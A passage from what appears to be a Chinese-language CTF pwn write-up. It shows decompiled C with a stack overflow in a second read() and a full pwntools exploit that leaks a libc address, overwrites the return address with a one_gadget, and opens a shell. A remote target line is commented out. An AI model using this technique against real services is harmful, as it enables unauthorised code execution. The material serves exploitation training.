  puts(s);                          // 泄露出s的地址，*s = &puts;
```

下面这个函数直接存在溢出漏洞：

```
int sub_400978()
{
  ssize_t v0; // rax
  char s[512]; // [rsp+0h] [rbp-610h] BYREF
  char s2[512]; // [rsp+200h] [rbp-410h] BYREF
  char v4[526]; // [rsp+400h] [rbp-210h] BYREF
  __int16 i; // [rsp+60Eh] [rbp-2h]

..
  v0 = read(0, s, 0x200uLL);
  if ( v0 >= 0 )
  {
    LODWORD(v0) = strncmp(s, "KEY: ", 5uLL);    // 匹配前5个字符串
    if ( !v0 )
    {
      for ( i = 5; s[i]; ++i )
        s2[i - 5] = s[i];
      s2[i - 5] = 0;
      memset(s, 0, sizeof(s));
      v0 = read(0, s, 0x200uLL);//存在溢出
      if ( v0 >= 0 )
      {
        LODWORD(v0) = strncmp(s, "VAL: ", 5uLL);
        if ( !v0 )
        {
          for ( i = 5; s[i]; ++i )
            v4[i - 5] = s[i];
          v4[i - 5] = 0;
...
  return v0;
}
```

地址泄露有了在加上溢出劫持返回地址，直接用onegadget获得shell

```
from pwn import *
import time

# 文件路径和ELF对象的初始化
local_file = './pwn'
elf = ELF(local_file)
libc = ELF('./libc.so.6')

# 设置上下文
context.log_level = 'debug'
context.arch = elf.arch

# I/O 操作封装
send = lambda data: io.send(data)
send_after = lambda delim, data: io.sendafter(delim, data)
send_line = lambda data: io.sendline(data)
send_line_after = lambda delim, data: io.sendlineafter(delim, data)
recv = lambda num=4096: io.recv(num)
recv_until = lambda delims, drop=True: io.recvuntil(delims, drop)

# 地址转换和辅助函数
to_u32 = lambda data: u32(data.ljust(4, b'\x00'))
to_u64 = lambda data: u64(data.ljust(8, b'\x00'))
get_q = lambda data: (~np.uint64(data) + 1)
get_d = lambda data: (~np.uint32(data) + 1)

# 获取libc地址
def get_libc_addresses():
    return libc_base + libc.sym['system'], libc_base + next(libc.search(b'/bin/sh\x00'))

# 打印地址信息
log_address = lambda tag, addr: io.info(f'{tag} ==> {addr:#x}')

# 与远程服务器连接，或者本地进程
# io = remote('101.200.198.105', 24698)
io = process(local_file)

# 调试用设置
send(p8(2) * 4)
#gdb.attach(io, "b *0x400A02")

# 接收数据，获取libc基址
recv_until('d')
recv_until('
')
libc_base = to_u64(recv(6)) - libc.sym.puts

# 发送构造好的payload
send(p8(0) * 4)
one_gadget = 0x4f302
send(b'KEY: ' + b'a' * 19 + p8(0x14) + p8(0x2) + b'c' * 8 + p64(one_gadget + libc_base))

# 暂停，等待程序响应
#pause()
sleep(0.1)

# 继续发送数据以触发漏洞
send(b'VAL: ' + b'b' * 512)

# 进入交互模式
io.interactive()
```
